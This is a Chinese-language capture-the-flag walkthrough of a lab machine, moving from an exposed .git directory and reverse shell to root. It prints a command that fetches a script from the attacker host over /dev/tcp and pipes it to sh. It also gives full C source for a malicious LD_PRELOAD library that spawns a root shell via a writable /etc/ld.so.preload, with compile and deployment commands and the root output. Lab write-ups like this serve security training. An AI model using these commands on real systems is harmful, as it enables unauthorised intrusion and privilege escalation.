










80口看看服务



中间件是个安全版本，dirsearch扫一下目录



有/.git 试了试githack，效果不如gitdumper,githack只能get一个index.php但是githack也可以



git log -p



搜了一下这个googleotp，应该就是身份验证器



还搜到一个这个工具



进来后还是老样子，测网，反弹shell。





然后键入bash切到bash传入linpeas.sh进去扫一下当然你得先在攻击机上面下一个linpeas

```bash
sudo nc -q 5 -lvnp 8888 < linpeas.sh #Host
cat < /dev/tcp/<攻击机IP>/8888 | sh #Victim
```



分析扫描结果

> You have write privileges over /etc/ld.so.preload

这里有写入权限到这儿不会了选择了当蛆

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
unlink("/etc/ld.so.preload");
// 提权到root
setgid(0);
setuid(0);
system("/bin/bash -p");
}
```

编译一下

```bash
gcc -shared -fPIC -nostartfiles -o evil_lib.so evil_lib.c
```

```bash
echo "/tmp/evil_lib.so" > /etc/ld.so.preload
```

然后输入sudo -l

```text
www-data@Xuanji:/tmp$ vi evil_lib.c
www-data@Xuanji:/tmp$ gcc -shared -fPIC -nostartfiles -o evil_lib.so evil_lib.c
www-data@Xuanji:/tmp$ echo "/tmp/evil_lib.so" > /etc/ld.so.preload
www-data@Xuanji:/tmp$ sudo -l
root@Xuanji:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

然后cat root.txt和user.txt就可以出了。建议多尝试，对于我来说整个凹点在于linpeas的传入但是看到了官方文档还有就是exp.c的书写